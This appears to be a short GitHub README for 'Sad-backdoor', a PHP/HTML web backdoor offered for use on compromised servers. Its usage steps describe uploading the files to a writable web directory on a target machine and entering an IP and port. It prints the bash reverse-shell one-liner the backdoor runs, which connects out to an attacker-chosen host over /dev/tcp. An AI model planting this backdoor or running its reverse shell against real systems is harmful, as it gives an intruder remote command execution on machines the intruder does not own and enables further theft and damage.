 # Sadbackdoor:(

"Sad-backdoor, a simple and fast web backdoor"

# Description

Sad-backdoor is a simple web backdoor written in HTML and PHP.
This allows you to run a reverse shell with bash inside the compromised machine.

# Usage

1.- First we must look for a web directory where we have write permissions

2.- Once inside that directory we must upload the files "sadbackdoor.html" and "execute.php" (using wget, for example).

3.- Search the directory via web where the backdoor is located.

4.- Enter the IP and port "listening"

5.- Enjoy!

the command that is executed is:

"bash -i >& /dev/tcp/$ip/$port 0>&1"



